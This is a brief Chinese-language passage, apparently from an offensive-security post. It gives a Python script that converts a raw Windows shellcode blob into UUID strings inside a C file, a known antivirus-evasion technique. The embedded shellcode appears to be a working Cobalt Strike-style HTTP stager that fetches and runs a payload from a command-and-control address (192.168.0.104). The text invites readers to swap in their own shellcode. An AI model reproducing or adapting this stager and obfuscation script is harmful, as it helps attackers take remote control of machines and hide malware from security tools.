 cs 直接上线，这里我们需要用的一个 python 转换 uuid 脚本：

```
import uuid
shellcode=b"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x6e\x65\x74\x00\x68\x77\x69\x6e\x69\x54\x68\x4c\x77\x26\x07\xff\xd5\x31\xff\x57\x57\x57\x57\x57\x68\x3a\x56\x79\xa7\xff\xd5\xe9\x84\x00\x00\x00\x5b\x31\xc9\x51\x51\x6a\x03\x51\x51\x68\x50\x00\x00\x00\x53\x50\x68\x57\x89\x9f\xc6\xff\xd5\xeb\x70\x5b\x31\xd2\x52\x68\x00\x02\x40\x84\x52\x52\x52\x53\x52\x50\x68\xeb\x55\x2e\x3b\xff\xd5\x89\xc6\x83\xc3\x50\x31\xff\x57\x57\x6a\xff\x53\x56\x68\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x84\xc3\x01\x00\x00\x31\xff\x85\xf6\x74\x04\x89\xf9\xeb\x09\x68\xaa\xc5\xe2\x5d\xff\xd5\x89\xc1\x68\x45\x21\x5e\x31\xff\xd5\x31\xff\x57\x6a\x07\x51\x56\x50\x68\xb7\x57\xe0\x0b\xff\xd5\xbf\x00\x2f\x00\x00\x39\xc7\x74\xb7\x31\xff\xe9\x91\x01\x00\x00\xe9\xc9\x01\x00\x00\xe8\x8b\xff\xff\xff\x2f\x76\x31\x62\x53\x00\x7f\x91\xe7\xa6\x06\xaf\x0e\x4c\xd7\x9a\xe9\x05\x62\x44\xda\x5c\x48\x62\xfe\x2c\x1a\xb1\x46\xe5\x9e\x3b\x14\x69\x39\x97\x1f\x0b\xfb\x1a\xf6\x8d\x89\x79\x72\x62\x8f\xcc\x16\x3a\xab\x4c\x4b\x8d\x50\xe4\xb5\xa1\x30\x1f\x46\x17\x84\xa1\x17\x69\xec\x2a\x4a\xfe\xe7\xb0\x87\xb9\x7b\x5c\x61\x3a\xfe\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x39\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x36\x2e\x31\x3b\x20\x57\x4f\x57\x36\x34\x3b\x20\x54\x72\x69\x64\x65\x6e\x74\x2f\x35\x2e\x30\x3b\x20\x4d\x41\x53\x42\x29\x0d\x0a\x00\x79\x00\x1b\x42\x2e\x57\x64\xda\x01\x3c\x02\xc6\x2a\x4a\xda\xc8\x22\x1e\x92\x76\x61\x47\x80\x02\xb1\x8c\x24\x61\x92\x9f\x53\x58\x73\xde\xae\x52\x30\x67\x82\x47\x32\x4b\x35\x10\x11\xfd\xe2\x1d\x2b\x26\x18\x6b\x9d\x85\x58\x10\x32\xa4\x0a\xcd\x92\xc1\x5a\x10\x50\x6b\xe7\x87\x2a\xd9\xcf\xce\x92\x06\x1c\x39\x6b\x75\x42\xfb\x81\x4b\x60\x0b\x56\xcc\x1b\xa7\xe6\x0b\x0f\x49\xdd\xc5\xcc\x48\x0d\xf4\xdb\x98\xf1\xbf\x0d\xa8\x9b\x45\xcb\x4f\x41\x26\x96\xf5\x0d\x4d\xe4\x58\x83\x1f\x81\x6e\x67\xea\x94\xab\x49\x5c\xc0\x6f\x1d\x8c\x78\x8c\xc5\xd7\x01\x4d\xc7\x89\xc1\x8e\xe5\x46\x6d\xab\x99\x5f\xa2\x26\xe1\xcc\x58\x8c\xef\x16\xcd\xe5\x02\x4a\xf9\xe5\x42\x1c\xb8\x4a\x96\x7e\x69\x9a\x30\x37\x97\x0d\x4e\x7e\x4c\xaf\x69\xcc\x9a\x36\xb3\xe5\x2a\x7b\x77\x64\x48\x30\xa3\x44\x27\x76\xd8\xe6\x03\x2a\x56\xeb\xe7\x21\xb1\xf6\x78\x2e\xf0\xaa\x43\xdf\x46\xa3\x95\x14\x00\x68\xf0\xb5\xa2\x56\xff\xd5\x6a\x40\x68\x00\x10\x00\x00\x68\x00\x00\x40\x00\x57\x68\x58\xa4\x53\xe5\xff\xd5\x93\xb9\x00\x00\x00\x00\x01\xd9\x51\x53\x89\xe7\x57\x68\x00\x20\x00\x00\x53\x56\x68\x12\x96\x89\xe2\xff\xd5\x85\xc0\x74\xc6\x8b\x07\x01\xc3\x85\xc0\x75\xe5\x58\xc3\xe8\xa9\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x30\x2e\x31\x30\x34\x00\x12\x34\x56\x78\x90\x90"
list = []
for i in range(50):
    bytes_a = shellcode[i * 16: 16 + i * 16]
    b = uuid.UUID(bytes_le=bytes_a)
    list.append(str(b))
with open("shellcode.c","w",encoding="utf-8") as f:
    f.write("const char* uuids[] ={")
    for UUID in list:
        f.write("\""+UUID+"\""+",")
    f.write("};")
print(list)

```

替换 shellcode，你懂我的意思吧！

